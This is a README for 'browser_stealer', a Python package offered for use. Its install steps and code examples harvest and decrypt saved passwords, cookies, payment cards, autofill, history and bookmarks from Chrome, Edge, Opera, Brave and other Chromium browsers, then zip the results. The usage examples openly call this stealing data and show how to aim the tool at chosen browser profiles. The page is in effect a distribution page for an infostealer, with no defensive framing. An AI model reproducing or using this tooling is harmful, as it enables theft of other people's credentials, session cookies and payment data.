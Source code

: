 <h1 align="center">Browser Stealer<h1>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/last-commit/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/stars/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/forks/Josakko/browser_stealer" </a>
</p>

<h4 align="center">
  <span style="color: #fff; font-weight: bold;">Browser Stealer</span>
  <span style="color: #fff; font-weight: normal;">v1.1.0</span>
</h4>

```
pip install browser_stealer
```

## Installation

Since module got removed from pypi you have to install it manually, to install it download `.whl` file (`browser_stealer-<version>-py3-none-any.whl`) from [here](https://github.com/Josakko/browser_stealer/releases), next open terminal on the location where you downloaded `browser_stealer-<version>-py3-none-any.whl` and run following command:
- *IMPORTANT* - Do not rename the downloaded file, that might prevent you from installing the module
  
```
pip install browser_stealer-<version>-py3-none-any.whl
```

After running the command you can import and use browser stealer in your own projects!

## Code Examples

Simple example for stealing data from profile "Default" of browsers: Chromium, Chrome, Opera, Opera GX, Brave, Edge
```py
import browser_stealer

browser_stealer.run()
```

Or if you want to add your own chromium based browser or other profiles for existing ones:

```py
import browser_stealer


def MyBrowser():
    browser_stealer.fetch_passwords(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Login Data", r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State")
    browser_stealer.decrypt_fetch_cookies(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Network\Cookies", r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State")
    browser_stealer.fetch_cookies(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Network\Cookies")
    browser_stealer.fetch_history(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\History")
    browser_stealer.fetch_downloads(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\History")
    browser_stealer.fetch_bookmarks(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Bookmarks")
    browser_stealer.fetch_payment(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Web Data", r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State")
    browser_stealer.fetch_autofill(r"AppData\Local\%FOLDER%\%FOLDER%e\User Data\%PROFILE%\Web Data")
    
    browser_stealer.zip("MyBrowser.zip", ["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])
    browser_stealer.delete_files(["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])

MyBrowser()
```

In this example you have to replace `%FOLDER%\%FOLDER%` with one for your specific browser, so for example for chrome you would use `Google\Chrome`, and also replace `%PROFILE%` whit profile you want to target so for example you could replace it with `Default` if you want to target Default profile

## Need Help?

If you need help contact me on my [discord server](https:\\discord.gg\xgET5epJE6) or create [issue](https:\\github.com\Josakko\DiscordReverseShell\issues).

## Contributors

Big thanks to all of the amazing people (only me) who have helped by contributing to this project!
